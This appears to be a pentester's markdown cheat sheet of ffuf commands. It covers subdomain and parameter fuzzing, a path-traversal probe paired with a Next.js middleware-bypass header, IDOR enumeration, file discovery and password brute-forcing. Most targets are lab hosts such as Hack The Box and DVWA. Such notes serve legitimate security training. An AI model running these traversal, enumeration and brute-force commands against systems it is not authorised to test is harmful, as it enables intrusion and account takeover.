 # FFuF 
[Tutorial](https://null-byte.wonderhowto.com/how-to/fuzz-parameters-directories-more-with-ffuf-0330806/)

#### Subdominos

```bash
ffuf -u http://domain.com -H "Host: FUZZ.domain.com" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac -mc all
```

#### Url Parameters

```bash
ffuf -u 'http://domain.com/api/download?FUZZ=test' -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -ac
```

```bash
ffuf -w /usr/share/wordlists/dirb/small.txt -u 'http://domain.com/api/download?example=../../../app/.next/FUZZ' -mc 200,301,302,500,404\n
```
* Numeric parameter
```bash
ffuf -w <(seq 0 10000) -u 'http://file.era.htb/download.php?id=FUZZ' -H "Cookie: PHPSESSID=4hp1nipcjl1kb3bibmoh4m5n7v" -mc 200 -fs 7686
```

* Page 

```bash
ffuf -w payloads.txt -u 'http://10.10.11.74/index.php?page=FUZZ' -mc 200,302 -t 40 -o ffuf_param.json -of json
```

* IDOR

```bash
seq 1 50 > idor.txt

ffuf -u 'http://portal.guardian.htb/student/chat.php?chat_users[0]=FUZZ1&chat_users[1]=FUZZ2' -w idor.txt:FUZZ1 -w idor.txt:FUZZ2 -mode clusterbomb -H 'Cookie: PHPSESSID=<id>' -fl 178,164
```

#### Posible files

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -u 'http://file.domain.com/FUZZ' -e .php,.html,.txt,.js,.json,.xml,.bak,.old -fs 6765 -fc 404 -t 50
```

#### POST Request

```bash
ffuf -w /usr/share/seclists/Passwords/darkweb2017-top100.txt -X POST -d "username=admin\&password=FUZZ\&Login=Login" -u http://10.10.0.50/dvwa/login.php
```
